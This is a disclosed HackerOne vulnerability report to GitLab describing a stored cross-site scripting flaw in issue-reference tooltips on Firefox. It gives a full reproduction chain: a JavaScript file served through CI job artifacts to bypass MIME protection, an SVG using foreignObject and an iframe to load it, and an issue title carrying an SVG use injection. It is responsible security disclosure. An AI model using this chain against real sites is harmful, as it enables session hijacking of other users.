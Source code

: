 # XSS on Issue reference numbers

## Report Details
- **Report ID**: 831962
- **URL**: https://hackerone.com/reports/831962
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-03-26T11:32:16.498Z
- **Disclosed**: 2020-11-23T16:05:04.527Z

## Reporter
- **Username**: yvvdwf
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gitlab

## Vulnerability Information
Dear team,

I found an XSS that occurs when users move mouse over reference numbers of issues. 
This XSS occurs on Firefox. It does not occurs on Webkit-based ones such as Safari, Chrome. I haven't tested on Edge.
It can be also occured in older browsers due to [`svg4everybody()`](https://gitlab.com/gitlab-org/gitlab/-/blob/master/app/assets/javascripts/commons/polyfills/svg.js#L11) and [`cachedDocument.body.innerHTML = xhr.responseText`](https://github.com/jonathantneal/svg4everybody/blob/v2.1.9/dist/svg4everybody.js#L36)

### Summary

XSS caused by enabling HTML of tooltip of issues' reference numbers.
Bootstrap sanitizes macilious tags/attributes of HTML tooltips.
The issue is that gitlab [allows](https://gitlab.com/gitlab-org/gitlab/-/blob/master/app/assets/javascripts/commons/bootstrap.js#L77) `<svg>`, `<use>` and its `xlink:href` attribute.
This allows attacker to link external resource to svg images, then, to cause the XSS.


### Steps to reproduce

Four big steps to reproduce:

1. create a javascript file
2. create a file containing external svg resource
3. create an issue's title having svg content that use the resource above
4. create a reference to the issue, XSS occurs when users move mouse over the reference link

Steps 1,2,3 are supposed to realized in a same project.

#### 1. Create a javascript file

This step creates a javascript file that may contain arbitrary attack script.
For example, add a new file `alert.js` in a selected project with the following content:

```javascript
alert('Hello: ' + window.parent.location.href);
```

This script will be used by an `iframe`.

Since gitlab changes its mime type to ['text/plain'](https://gitlab.com/gitlab-org/gitlab/-/blob/master/app/controllers/concerns/send_file_upload.rb#L16) and set header `X-Content-Type-Options: nosniff`, browser will refuse to execute the javascript file if it will be loaded by script tag, such as `<script src=alert.js></script`.

This can be bypassed by using `job artifacts`.

Create another file `.gitlab-ci.yml` with the following content:

```yml
js:
  script: echo "to generate mime type application/javascript"
  artifacts:
    paths:
    - alert.js
    expire_in: 4 week
```

After saving the file, gitlab CI/CD will start runing. Wait for the job finished.
Browse `Job artifacts`, then get the raw link of the generated `alert.js` file, for example:
`https://gitlab.com/yvvdwf/svg-use-xss-firefox/-/jobs/486384886/artifacts/raw/alert.js`

Note that the mime type of this js file is now `application/javascript`.

#### 2. Create a svg file

Add the third file in to the project with the name `xss.svg` and the following content:

```xml
<svg id="xss" xmlns="http://www.w3.org/2000/svg">
	<foreignObject>
		<iframe xmlns="http://www.w3.org/1999/xhtml" srcdoc='&lt;script src=https://gitlab.com/yvvdwf/svg-use-xss-firefox/-/jobs/486384886/artifacts/raw/alert.js&gt; &lt;/script&gt;'></iframe>
	</foreignObject>
</svg>
```

Please note that, you must replace the link to `alert.js` file with your.


#### 3. Create an issue

Create a new issue having the following title:
 
`<svg><use xlink:href="https://gitlab.com/yvvdwf/svg-use-xss-firefox/-/raw/master/xss.svg#xss"/></svg>`

#### 4. Create a reference to the issue

In an issue discussion, or in a wiki page, enter the reference number of the issue, for example (suppose the issue id = 1):
`Move mouse over #1 to see alert`

When you move mouse over the number 1, you will see a (normal) tooltip and a popup executed by the `alert.js` file above.

This has been tested on the latest Firefox (74.0 (64-bit)) on macOS. Firefox allows `foreignObject` (but not [webkit](https://bugs.webkit.org/show_bug.cgi?id=91515))

### Impact

Attacker may perform arbitrary actions on behalf of users at the client side.

### Examples

An example is on https://gitlab.com/yvvdwf/svg-use-xss-firefox
This project is private. Please let me know if you cannot access it.


### What is the expected *correct* behavior?

Malicious scripts must not be executed due to svg content.

### Output of checks

This bug happens on GitLab.com

## Impact

Attacker may perform arbitrary actions on behalf of users at the client side.

## Attachments
No attachments
